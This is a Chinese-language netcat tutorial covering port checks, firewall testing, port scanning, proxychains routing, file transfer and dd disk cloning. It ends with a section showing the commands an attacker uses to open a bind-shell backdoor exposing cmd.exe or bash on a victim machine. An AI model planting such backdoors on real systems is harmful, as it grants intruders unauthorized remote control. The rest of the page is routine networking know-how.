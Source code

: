 # **nc(网络瑞士军刀)的使用**

- **nc的命令行的常规形式**

一般来说，nc 的命令行包括如下几个部分：

```bash
nc 命令选项 主机 端口
```

> **命令选项**

这部分可能包含 0~N 个选项（注：这部分最复杂，下一个小节单独聊）

> **主机**

这部分可能没有，可能以“点分十进制”形式表示，也可能以“域名”形式表示。

> **端口**

这部分可能没有，可能是单个端口，可能是端口范围。

对于“端口范围”，以两个数字分别表示“开始和结束”，中间以【半角减号】相连。举例：`1-1024`

**[常用的命令行选项]**

![](img/nc.png)

- **(网络诊断)测试某个远程主机是否可达**

> 方法

用如下命令可以测试某个 IP 地址（`x.x.x.x`）上的某个监听端口（`xx`）是否开启：

```bash
nc -nv xxx.xxx.xxx.xxx xxx
```

> 关于超时设置

在测试链接的时候，如果你【没】使用 `-w` 这个超时选项，默认情况下 nc 会等待很久，然后才告诉你连接失败。

如果你所处的网络环境稳定且高速（比如：局域网内），那么，你可以追加“`-w` 选项”，设置一个比较小的超时值。在下面的例子中，超时值设为3秒。

```bash
nc -nv -w 3 xxx.xxx.xxx.xxx  xxx
```

> 关于UDP

通常情况下，要测试的端口都是 TCP 协议的端口；如果你碰到特殊情况，需要测试某个 UDP 的端口是否可达。nc 同样能胜任。只需要追加 `-u` 选项。

- **(网络诊断)判断防火墙是否"允许or禁止"某个端口**

假设你正在配置防火墙规则，禁止 TCP 的 `8080` 端口对外监听。那么，你如何【验证】自己的配置是 OK 滴？

更进一步说：如果当前【没有】任何软件开启 `8080` 这个监听端口，你如何判断：该端口号是否会被防火墙阻拦？

有两台主机——“主机C”充当客户端，“主机S”充当服务端。
然后要判断“主机S”上的防火墙是否会拦截其它主机对 `8080` TCP 端口的连接。

> 方法

在“主机S”上运行 nc，让它在 8080 端口，命令如下：

```
nc -lv -p 8080
```

> 如何让nc的监听端口[持续开启，也即后台运行]

在默认情况下，nc 开启 listen 模式充当服务端，在接受【第一次】客户端连接之后，就会把监听端口关闭。

为啥会这样捏？因为当年设计 nc 更多的是作为某种网络诊断/配置工具，并【不是】真拿它当服务端软件来用的。

如果你想要让 nc 始终监听模式，使之能【重复】接受客户端发起的连接，可以追加 `-k` 选项。

- **用nc玩"端口扫描"**

> 方法

下面这个命令，用来扫描 IP 地址为 `x.x.x.x` 的主机，扫描的端口范围从 `1` 到 `1024`：

```
nc -znv xxx.xxx.xxx.xxx  1-1024
```

**-z**:该模式指的是：nc 只判断某个监听端口是否能连上，连上后【不】与对端进行数据通讯。

**-n**:对命令行中的主机不进行解析

**-v**:显示详细的过程（结果）

> 优化输出

可以使用正则表达式，优化输出结果，筛选只要检测到的端口

```
nc -znv xxx.xxx.xxx.xxx 1-1024 | grep succeeded
```

- **让nc走暗网**

> 方法

这里捏使用滴的proxychains

直接配置好proxychains然后执行

- **用nc传输文件**

> 方法

假设你有两台主机 A 与 B，你要把 A 主机上的文件 file1 传输到 B 主机上，保存为 file2

先在【接收端】（B 主机）运行如下命令（其中的 `xxx` 是端口号）：

```
nc -l -p xxx > file2
```

然后在【发送端】（A 主机）运行如下命令:

```
nc xxx.xxx.xxx.xxx.xxx  xxx < file1
```

- **用nc进行容灾备份型**

有些时候难免遇到一些头疼的问题，需要把一台电脑的整块硬盘文件"拷贝"到另一台主机上。

如果使用普通方法，难免会经历：压缩整个硬盘文件，用介质（或者ftp,scp,sftp等等）传输到另一台主机之后，再解压。这些步骤稍微有点费时间的呢，这时就可以尝试使用netcat(即nc)，操作如下：

> 1.首先呢咱们在双方都安装netcat,清洁，简便哟（若是两台都是Linux就更加好办了，很喜欢命令行嘿嘿嘿）
>
> 2.假设你要把 A 主机 `/dev/sda` 磁盘的【原始数据】整个复制到 B 主机的 `/dev/sdb` 磁盘。
>
> 先在【**接收端**】（B 主机）运行如下命令（其中的 `xxx` 是端口号）:
>
> ```
> nc -l -p xxxx  | dd of=/dev/sdb
> ```
>
> 然后在【发送端】（A 主机）运行如下命令:
>
> ```
> dd if=/dev/sda | nc xxx.xxx.xxx.xxx xxx
> ```
>
> 第二条命令中的 `xxx` 是端口号，要与第一条命令中的端口号相同；第二条命令中的 `x.x.x.x` 是【主机 B】的 IP 地址。

然后等待就可以了呢！如今的存储设备越来越大了。“磁盘”或者“分区”，动不动都是几百个 GB，这时候 nc 的【性能优势】就体现出来啦。

- **用nc开启[被动]连接型后门**

> 原理

为了让后门能工作，通常会使用 nc 的 `-e` 选项，该选项的“选项值”是一个可执行文件的路径。

设置了该选项之后，当处于监听状态的 nc 接受到某个连接，会启动“选项值”对应的可执行文件（并得到某个进程），nc 会把该进程的“标准输入输出”与网络通讯【对接】

为了让这个后门用起来足够爽，攻击者通常会让 nc 去启动一个【shell 进程】。对 Windows 系统而言，就是 `cmd.exe`；对 POSIX 系统（Linux or UNIX）而言，就是 `/bin/sh`

在这种情况下（nc 挂载 shell），攻击者远程连入 nc 的端口，就可以直接在这个 shell 上进行各种操作，其效果类似于 SSH 或（老式的）telnet。

> 方法

如果受害者是 Windows 系统，只须如下命令就可以开启一个后门（其中的 `xxx` 是端口号）:

```
nc.exe -l -p xxx -e cmd.exe
```

如果受害者是 POSIX 系统（Linux or UNIX），则用如下命令：

```
nc -l -p xxx /usr/bin/bash
```

